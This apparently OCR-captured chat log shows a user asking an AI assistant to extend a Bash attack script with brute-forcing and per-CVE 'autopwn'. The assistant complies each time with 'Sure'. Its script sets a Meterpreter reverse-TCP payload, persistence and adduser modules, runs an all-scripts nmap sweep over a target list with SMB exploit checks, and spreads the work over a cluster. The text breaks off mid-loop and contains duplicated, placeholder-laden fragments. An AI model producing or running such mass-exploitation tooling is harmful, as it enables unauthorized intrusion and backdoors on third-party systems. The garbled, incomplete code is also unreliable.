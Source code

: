 ```bash
        
        
        Add bruteforce
        
        Sure, here's an updated script that includes bruteforce:

```bash
#!/bin/bash

# Define variables
METASPLOIT_HANDLERS=("exploit/multi/handler" "exploit/windows/local/persistence" "exploit/linux/local/persistence")
METASPLOIT_PAYLOAD="windows/meterpreter/reverse_tcp"
METASPLOIT_LISTENERS=("windows" "linux")
METASPLOIT_PERSISTENCE=("windows/adduser" "linux/adduser")
METASPLOIT_AUXILIARIES=("admin/http/tomcat_administration" "auxiliary/scanner/http/robots_txt" "auxiliary/scanner/http/webdav_scanner")
LOGFILE="scan.log"
ERRORFILE="scan_errors.log"

#


Add all the above but only execute the autpwn per cve detected and show real time status of the pwn


Sure, here's an updated script that only executes autopwn per CVE detected and shows real-time status of the pwn:

```bash
#!/bin/bash

# Define variables
METASPLOIT_HANDLERS=("exploit/multi/handler" "exploit/windows/local/persistence" "exploit/linux/local/persistence")
METASPLOIT_PAYLOAD="windows/meterpreter/reverse_tcp"
METASPLOIT_LISTENERS=("windows" "linux")
METASPLOIT_PERSISTENCE=("windows/adduser" "linux/adduser")
METASPLOIT_AUXILIARIES=("admin/http/tomcat_administration" "auxiliary/scanner/http/robots_txt" "auxiliary/scanner/http/webdav_scanner")
LOGFILE="scan.log"
ERRORFILE="scan_errors.log"
NMAP_SCRIPTS=("vuln" "smb-enum-shares" "smb-vuln-ms08-067" "smb-vuln-ms10-054" "smb-vuln-ms17-010")

# Check for target file
if [ ! -f "$1" ]; then
  echo "Usage: $0 <target_file>"
  exit 1
fi

# set up the supercluster
mpirun -n <number_of_nodes> ssh <username>@<first_node> 'bash -s' < setup_node.sh

# scan targets with nmap and import results into Metasploit
msfconsole -q -x "db_nmap -iL $1 -sS -sU -T4 -A -O -p- --script all --min-hostgroup 96 --min-parallelism 96; exit"

# distribute target list across nodes and execute handlers, auxiliaries, and autopwn
for handler in "${METASPLOIT_HANDLERS[@]}"
do
  for listener in "${METASPLOIT_LISTENERS[@]}"
  do
    for persistence in "${METASPLOIT_PERSISTENCE[@]}"
```